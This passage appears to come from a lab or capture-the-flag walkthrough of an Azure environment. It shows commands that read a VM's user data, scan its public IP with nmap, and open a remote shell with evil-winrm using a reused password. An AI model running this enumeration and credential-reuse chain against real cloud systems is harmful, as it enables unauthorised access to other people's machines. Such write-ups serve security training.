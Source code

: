 ```
  },
  "timeCreated": "2024-12-08T22:48:01.681267+00:00",
  "type": "Microsoft.Compute/virtualMachines",
  "userData": null,
  "virtualMachineScaleSet": null,
  "vmId": "53420129-b4dc-460c-bb02-071b0208c6b9",
  "zones": [
    "1"
  ]
}

```
It's worth checking if VM has User Data defined. User Data allows admins to make information available to applications that may be running in a VM or even to run a configuration script on the VM.
```
└─PS> az vm show --resource-group "mbt-rg-22" --name "SECURITY-DIRECTOR" -u --query "userData" --output tsv | base64 -d
net user remoteassist /active:yes
```
We could also make direct API call by using the access token
```
$token="<access_token_value>"
Invoke-RestMethod -Method GET -Uri "https://management.azure.com/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-22/providers/Microsoft.Compute/virtualMachines/SECURITY-DIRECTOR?api-version=2021-07-01&`$expand=userData" -Headers @{Authorization = "Bearer $token"}
```

We see that support or the admins have defined user data to enable the `remoteassist` local account on the VM every time it boots.

Let's get the public IP address of the VM.
```
└─PS> az network public-ip show --resource-group mbt-rg-22 --name SECURITYDIRECTORip304 --query "ipAddress" --output tsv
20.127.161.82
```

Now let's perform port scan
```
└─$ nmap -Pn --top-ports 1000 20.127.161.82
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-14 20:27 +06
Nmap scan report for 20.127.161.82
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
53/tcp   open  domain
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

We see ports 53 (DNS), 3389 (RDP) and 5985 (Windows Remote Management) are available. We can try and connect to the instance over port 5985 as the support user, and try the password that we found in the Web App. And we got a foothold on the `SECURITY-DIRECTOR` VM
```
└─$ evil-winrm -i 20.127.161.82 -u remoteassist -p '<REDACTED>'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\remoteassist\Documents> 
```